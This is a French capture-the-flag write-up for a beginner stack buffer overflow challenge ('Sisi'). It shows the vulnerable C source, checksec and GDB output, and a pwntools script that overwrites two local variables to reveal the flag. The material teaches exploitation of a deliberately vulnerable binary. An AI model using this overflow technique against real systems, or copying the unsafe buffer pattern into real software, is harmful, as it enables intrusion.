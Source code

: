 # Sisi

![sisi](sisi.png)

## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- L'accès à l'application se fait via un socket réseau
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme nous dit qu'on est mauvais
- Le programme quitte

```bash
$ nc challs.hackagou.nc 5005
Bienvenue sur le portail d'Open NC :)

Merci
Malheureusement, vous êtes mauvais...
```

### Analyse statique

Le challenge nous permet de télécharger le code source du binaire à exploiter sur le serveur.

Code simpliste :
- Deux variables sont définies, check et key
- Un buffer de 40 octets est défini mais la fonction fgets peut en recevoir 49, il y a sûrement un buffer overflow en vue
- Vérification des 2 variables check et key avec des valeurs inversées
- Si la condition est vraie : exécution de `cat flag.txt`
- Sinon sortie du programme

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
     
int main()
{
  setvbuf(stdout, NULL, _IONBF, 0);
  
  int check=0xbebebeef;
  int key=0xcafedead;
  char buf[40];
  
  puts("Bienvenue sur le portail d'Open NC :)\n");
  fgets(buf,49,stdin);
     
  if ((check==0xcafedead) && (key==0xbebebeef))
   {
     puts("Bien joué jeune padawan, as-tu atteint ton but ?!\n");
     system("/usr/bin/cat flag.txt");
     puts("Déconnexion...\n");
   }
  else
   {
     printf("Malheureusement, vous êtes mauvais...\n");
   }
   return 0;
}

// gcc -Wall -fno-stack-protector -no-pie -o sisi sisi.c
```

La commande de compilation est fournie, en compilant avec ces paramètres, on voit que l'exécution de code depuis la stack est impossible :

```bash
$ checksec sisi
[*] '/home/opennc/sisi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow dont le but est d'écraser les valeurs des variables check et key :
- Remplir les 40 octets du buffer buf
- Ecrire les valeurs des variables pour que le check soit juste, 8 octets au total

Commençons par regarder comment sont organisées les variables check et key dans la stack. Pour cela, nous mettons un breakpoint sur le check dans GDB et entrons une input "normale".

<pre><code>$ gdb ./sisi
gdb-peda$ disassemble main 
Dump of assembler code for function main:
   [..]
   0x00000000004011f0 <+90>:	call   0x401090 <fgets@plt>
   <b><ins>0x00000000004011f5 <+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead</ins></b>
   0x00000000004011fc <+102>:	jne    0x401236 <main+160>
   0x00000000004011fe <+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x0000000000401205 <+111>:	jne    0x401236 <main+160>
   [...]
End of assembler dump.
gdb-peda$ break *0x00000000004011f5
Breakpoint 1 at 0x4011f5
gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

MonInput

[...]

[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ("MonInput\n")
0008| 0x7fffffffdc38 --> 0xa ('\n')
0016| 0x7fffffffdc40 --> 0x0 
0024| 0x7fffffffdc48 --> 0x0 
0032| 0x7fffffffdc50 --> 0x0 
<b><ins>0040| 0x7fffffffdc58 --> 0xbebebeefcafedead</b></ins>
0048| 0x7fffffffdc60 --> 0x1 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()</code></pre>

Nous voyons que les valeurs de check et key sont bien à partir du 40ème octet. Essayons de les écraser avec des valeurs arbitraires.

<pre><code>gdb-peda$ run
Starting program: /home/yoan/Documents/Dev/CTF-Making/OpenNC2023/sisi/sisi 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Bienvenue sur le portail d'Open NC :)

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC

[...]
[-------------------------------------code-------------------------------------]
   0x4011e8 <main+82>:	mov    esi,0x31
   0x4011ed <main+87>:	mov    rdi,rax
   0x4011f0 <main+90>:	call   0x401090 <fgets@plt>
=> 0x4011f5 <main+95>:	cmp    DWORD PTR [rbp-0x4],0xcafedead
   0x4011fc <main+102>:	jne    0x401236 <main+160>
   0x4011fe <main+104>:	cmp    DWORD PTR [rbp-0x8],0xbebebeef
   0x401205 <main+111>:	jne    0x401236 <main+160>
   0x401207 <main+113>:	lea    rax,[rip+0xe22]        # 0x402030
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc30 ('A' <repeats 40 times>, "BBBBCCCC")
0008| 0x7fffffffdc38 ('A' <repeats 32 times>, "BBBBCCCC")
0016| 0x7fffffffdc40 ('A' <repeats 24 times>, "BBBBCCCC")
0024| 0x7fffffffdc48 ('A' <repeats 16 times>, "BBBBCCCC")
0032| 0x7fffffffdc50 ("AAAAAAAABBBBCCCC")
<b><ins>0040| 0x7fffffffdc58 ("BBBBCCCC")</b></ins>
0048| 0x7fffffffdc60 --> 0x0 
0056| 0x7fffffffdc68 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004011f5 in main ()
</code></pre>

Nos valeurs BBBB et CCCC sont bien écrites en lieu et place des valeurs de check et key.

L'organisation en mémoire étant en little-endian, les valeurs doivent être écrites en respectant cette convention.

Ainsi, le code d'exploitation en utilisant pwntools est le suivant :

```python
#!/usr/bin/env python3

from pwn import *

conn = remote('challs.hackagou.nc', 5005)
conn.recvuntil(b'\n\n')
log.success('Received lines')
conn.send(b'A'*40 + b'\xef\xbe\xbe\xbe\xad\xde\xfe\xca')
log.success('Payload sent')
conn.interactive()
```

```
$ python3 pwn-sisi.py
[+] Opening connection to challs.hackagou.nc on port 5005: Done
[+] Received lines
[+] Payload sent
[*] Switching to interactive mode
Bien joué jeune padawan, as-tu atteint ton but ?!

OPENNC{H4cK4g0u_C357_34sY}
Déconnexion...

[*] Got EOF while reading in interactive
```
